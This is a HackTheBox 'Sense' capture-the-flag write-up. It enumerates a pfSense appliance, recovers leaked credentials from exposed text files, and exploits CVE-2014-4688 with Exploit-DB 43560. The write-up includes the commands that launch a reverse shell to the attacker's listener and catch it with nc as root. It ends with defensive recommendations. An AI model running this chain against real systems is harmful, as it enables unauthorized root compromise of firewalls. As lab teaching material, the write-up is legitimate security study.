# HTB - Sense

**IP Address:** `10.129.10.174`  
**OS:** FreeBSD 8.3-RELEASE-p16 (pfSense 2.1.3-RELEASE amd64)  
**Difficulty:** Easy  
**Tags:** #htb #pfsense #lighttpd #cve-2014-4688 #command-injection

> **Vault note:** This README matches the solved run documented in `notes/ctf/htb-sense.md`. Evidence images live under `screenshots/`. Redact flags, hashes, and passwords if you publish a public writeup.

---
## Synopsis

Sense exposes only **HTTP/HTTPS** (`lighttpd`), fronting a **pfSense** web UI. After mapping the small TCP surface, service enumeration moved to **HTTPS** and **content discovery**, which surfaced **world-readable `.txt` files** containing a **credential hint** and patch status. Valid **GUI credentials** led to a **version-confirmed** pfSense **2.1.3-RELEASE** host. **Authenticated** command injection (**CVE-2014-4688**) via **`status_rrd_graph_img.php`** (Exploit-DB **43560**) was used to obtain a **reverse shell**; the appliance context already ran as **root**, so **no separate privilege escalation** was required. Proof was collected from **`/root/root.txt`** and **`/home/rohit/user.txt`**.

---
## Skills Required

- Basic **TCP** and **HTTPS** enumeration (`nmap`, TLS inspection, web fuzzing)
- Reading **pfSense**-style web UIs and version strings
- Running and lightly patching **Python** exploit scripts (`requests` TLS behavior)

## Skills Learned

- Correlating **leaked support tickets** with **vendor default-password semantics** (without assuming `admin` still works)
- Adapting **Searchsploit** code for **self-signed** TLS (`Session.verify` vs per-request `verify=`)
- Recognizing when **RRD graph** endpoints become **command execution** on legacy pfSense builds

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.10.174
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.10.174 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p80,443 10.129.10.174 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  



Fingerprint the HTTP redirect and login surface:

```bash
whatweb http://10.129.10.174
```



**Findings:**

| Port(s) | Service                      | Notes                       |
| ------- | ---------------------------- | --------------------------- |
| 80/tcp  | http (`lighttpd 1.4.35`)     | Redirects to HTTPS          |
| 443/tcp | ssl/http (`lighttpd 1.4.35`) | Login page; self-signed TLS |

Open the site in a browser to confirm the **pfSense** login UI (here, a failed attempt with non-working credentials still proves the form is live):



---
## 2. Service Enumeration

### 2.1 HTTPS and TLS

The web UI is only useful over **TLS**, but the certificate is **self-signed** and **expired** in lab—confirm details before trusting tooling that verifies certificates by default.

```bash
openssl s_client -connect 10.129.10.174:443
```



Factory **GUI** defaults for pfSense are documented by the vendor, but **`admin` / `pfsense`** did **not** work on this target—so the next pivot is **discovery of non-default material** (paths, files, or other users), not blind default guessing.

---
### 2.2 Web content discovery

To hide repetitive “login page sized” responses during fuzzing, responses matching a known line-count baseline were filtered out—surfacing anomalies worth manual review.

```bash
wfuzz -c -L --hc=404 --hl=173 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt https://10.129.10.174/FUZZ
```



The **`tree`** path stood out as a different response profile than the generic login page noise:



---
### 2.3 Keyword-filtered `.txt` discovery

To speed up discovery, a **keyword-pruned** wordlist was generated and used with a **`.txt` suffix** pattern—this quickly surfaced readable files that often leak operational context on appliances.

```bash
grep -iE "user|pass|note|key|database|pwd|admin|log|id|robots" /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt > files
wfuzz -L -c --hc=404 --hl=173 -t 200 -w $(pwd)/files https://10.129.10.174/FUZZ.txt
```





Review the first hit in the browser — **`changelog.txt`** summarized patching gaps (manual patching required; **2 of 3** issues mitigated):



Then review the second file — **`system-users.txt`** contained a support-ticket style request to create **`Rohit`** with a password described as **`company defaults`**:



**Recovered (redact if publishing):** username **`Rohit`**, password interpreted as the vendor’s **factory default password class** for local users (**`pfsense`**), yielding a working GUI pair **`rohit` / `pfsense`** on this run (validated in `notes/ctf/htb-sense.md`).

---
## 3. Foothold

### 3.1 Exploit selection (Searchsploit)

With **`rohit` / `pfsense`**, the dashboard showed **pfSense 2.1.3-RELEASE**, which matches public exploits for **CVE-2014-4688** on builds **before 2.1.4**. `searchsploit` was used to locate and mirror **EDB 43560**, then rename it for easier use.

```bash
searchsploit pfsense 2.1.3
searchsploit -m php/webapps/43560.py
mv 43560.py pfsense_exploit.py
```



---
### 3.2 Authenticated exploit (CVE-2014-4688 / EDB 43560)

`searchsploit` was used to mirror **Exploit-DB `43560.py`**. The script obtained a CSRF token, but **`requests.Session()`** still verified TLS on later calls; setting **`client.verify = False`** (or passing **`verify=False`** on **every** `get`/`post`) was required for this **self-signed** target.

Start a listener first, then run:

```bash
python3 pfsense_exploit.py --rhost 10.129.10.174 --lhost 10.10.15.206 --lport 443 --username rohit --password pfsense
```



The script may print **`Error running exploit`** when the HTTP request **times out** while a reverse shell is caught on **`nc`**—that is expected in this setup. Ensure a listener is running on the chosen **`--lhost` / `--lport`** before launching the exploit.

---
## 4. Privilege Escalation

### 4.1 Root execution context (no separate local privesc)

In this chain, the vulnerable request path effectively provided **root-equivalent** execution on the appliance host—there was **no second “Linux-style” privilege escalation** step after the callback.

```text
Effective user after callback: root (see proof).
```

---
### 4.2 Proof

Validate the session and read the proof files:

```bash
nc -lvnp 443
whoami
cat /root/root.txt
cat /home/rohit/user.txt
```



🏁 **User flag obtained
🏁 Root flag obtained

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Map **80/443** and fingerprint **`lighttpd`** + **HTTPS login**.
2. Inspect **TLS** and perform **web discovery**; recover **`.txt`** leaks and translate the **credential hint** into working **GUI** access.
3. Confirm **pfSense 2.1.3-RELEASE**, mirror **EDB 43560**, patch **TLS verification** in the exploit, then run it with a **listener** active.
4. Catch the callback and read **`user.txt`** / **`root.txt`**.

---
## Defensive Recommendations

- **Patch/upgrade** pfSense to a supported release; track **CVE-2014-4688** class issues on legacy builds.
- Ensure **sensitive operational files** are not exposed via the web root (or are access-controlled).
- Avoid **password hints** that collapse to **vendor defaults**; enforce **unique** credentials per account.
- Replace **self-signed/expired** management certificates where possible to reduce “TLS verify disabled” operator habits (and improve detectability).
